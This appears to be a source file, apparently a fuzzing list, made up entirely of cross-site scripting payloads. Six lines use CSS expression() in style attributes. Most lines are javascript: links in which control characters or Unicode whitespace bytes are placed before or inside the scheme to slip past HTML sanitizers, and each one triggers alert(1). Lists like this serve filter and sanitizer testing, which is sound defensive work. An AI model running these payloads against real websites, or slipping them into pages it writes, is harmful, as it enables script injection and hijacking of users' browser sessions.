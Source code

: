       ABC<div style="x:\xE2\x80\x85expression(javascript:alert(1)">DEF
      ABC<div style="x:\xE2\x80\x82expression(javascript:alert(1)">DEF
      ABC<div style="x:\x0Bexpression(javascript:alert(1)">DEF
      ABC<div style="x:\xE2\x80\x81expression(javascript:alert(1)">DEF
      ABC<div style="x:\xE2\x80\x83expression(javascript:alert(1)">DEF
      ABC<div style="x:\xE2\x80\x89expression(javascript:alert(1)">DEF
      <a href="\x0Bjavascript:javascript:alert(1)" id="fuzzelement1">test</a>
      <a href="\x0Fjavascript:javascript:alert(1)" id="fuzzelement1">test</a>
      <a href="\xC2\xA0javascript:javascript:alert(1)" id="fuzzelement1">test</a>
      <a href="\x05javascript:javascript:alert(1)" id="fuzzelement1">test</a>
      <a href="\xE1\xA0\x8Ejavascript:javascript:alert(1)" id="fuzzelement1">test</a>
      <a href="\x18javascript:javascript:alert(1)" id="fuzzelement1">test</a>
      <a href="\x11javascript:javascript:alert(1)" id="fuzzelement1">test</a>
      <a href="\xE2\x80\x88javascript:javascript:alert(1)" id="fuzzelement1">test</a>
      <a href="\xE2\x80\x89javascript:javascript:alert(1)" id="fuzzelement1">test</a>
      <a href="\xE2\x80\x80javascript:javascript:alert(1)" id="fuzzelement1">test</a>
      <a href="\x17javascript:javascript:alert(1)" id="fuzzelement1">test</a>
      <a href="\x03javascript:javascript:alert(1)" id="fuzzelement1">test</a>
      <a href="\x0Ejavascript:javascript:alert(1)" id="fuzzelement1">test</a>
      <a href="\x1Ajavascript:javascript:alert(1)" id="fuzzelement1">test</a>
      <a href="\x00javascript:javascript:alert(1)" id="fuzzelement1">test</a>
      <a href="\x10javascript:javascript:alert(1)" id="fuzzelement1">test</a>
      <a href="\xE2\x80\x82javascript:javascript:alert(1)" id="fuzzelement1">test</a>
      <a href="\x20javascript:javascript:alert(1)" id="fuzzelement1">test</a>
      <a href="\x13javascript:javascript:alert(1)" id="fuzzelement1">test</a>
      <a href="\x09javascript:javascript:alert(1)" id="fuzzelement1">test</a>
      <a href="\xE2\x80\x8Ajavascript:javascript:alert(1)" id="fuzzelement1">test</a>
      <a href="\x14javascript:javascript:alert(1)" id="fuzzelement1">test</a>
      <a href="\x19javascript:javascript:alert(1)" id="fuzzelement1">test</a>
      <a href="\xE2\x80\xAFjavascript:javascript:alert(1)" id="fuzzelement1">test</a>
      <a href="\x1Fjavascript:javascript:alert(1)" id="fuzzelement1">test</a>
      <a href="\xE2\x80\x81javascript:javascript:alert(1)" id="fuzzelement1">test</a>
      <a href="\x1Djavascript:javascript:alert(1)" id="fuzzelement1">test</a>
      <a href="\xE2\x80\x87javascript:javascript:alert(1)" id="fuzzelement1">test</a>
      <a href="\x07javascript:javascript:alert(1)" id="fuzzelement1">test</a>
      <a href="\xE1\x9A\x80javascript:javascript:alert(1)" id="fuzzelement1">test</a>
      <a href="\xE2\x80\x83javascript:javascript:alert(1)" id="fuzzelement1">test</a>
      <a href="\x04javascript:javascript:alert(1)" id="fuzzelement1">test</a>
      <a href="\x01javascript:javascript:alert(1)" id="fuzzelement1">test</a>
      <a href="\x08javascript:javascript:alert(1)" id="fuzzelement1">test</a>
      <a href="\xE2\x80\x84javascript:javascript:alert(1)" id="fuzzelement1">test</a>
      <a href="\xE2\x80\x86javascript:javascript:alert(1)" id="fuzzelement1">test</a>
      <a href="\xE3\x80\x80javascript:javascript:alert(1)" id="fuzzelement1">test</a>
      <a href="\x12javascript:javascript:alert(1)" id="fuzzelement1">test</a>
      <a href="\x0Djavascript:javascript:alert(1)" id="fuzzelement1">test</a>
      <a href="\x0Ajavascript:javascript:alert(1)" id="fuzzelement1">test</a>
      <a href="\x0Cjavascript:javascript:alert(1)" id="fuzzelement1">test</a>
      <a href="\x15javascript:javascript:alert(1)" id="fuzzelement1">test</a>
      <a href="\xE2\x80\xA8javascript:javascript:alert(1)" id="fuzzelement1">test</a>
      <a href="\x16javascript:javascript:alert(1)" id="fuzzelement1">test</a>
      <a href="\x02javascript:javascript:alert(1)" id="fuzzelement1">test</a>
      <a href="\x1Bjavascript:javascript:alert(1)" id="fuzzelement1">test</a>
      <a href="\x06javascript:javascript:alert(1)" id="fuzzelement1">test</a>
      <a href="\xE2\x80\xA9javascript:javascript:alert(1)" id="fuzzelement1">test</a>
      <a href="\xE2\x80\x85javascript:javascript:alert(1)" id="fuzzelement1">test</a>
      <a href="\x1Ejavascript:javascript:alert(1)" id="fuzzelement1">test</a>
      <a href="\xE2\x81\x9Fjavascript:javascript:alert(1)" id="fuzzelement1">test</a>
      <a href="\x1Cjavascript:javascript:alert(1)" id="fuzzelement1">test</a>
      <a href="javascript\x00:javascript:alert(1)" id="fuzzelement1">test</a>
      <a href="javascript\x3A:javascript:alert(1)" id="fuzzelement1">test</a>
      <a href="javascript\x09:javascript:alert(1)" id="fuzzelement1">test</a>
      <a href="javascript\x0D:javascript:alert(1)" id="fuzzelement1">test</a>
      <a href="javascript\x0A:javascript:alert(1)" id="fuzzelement1">test</a>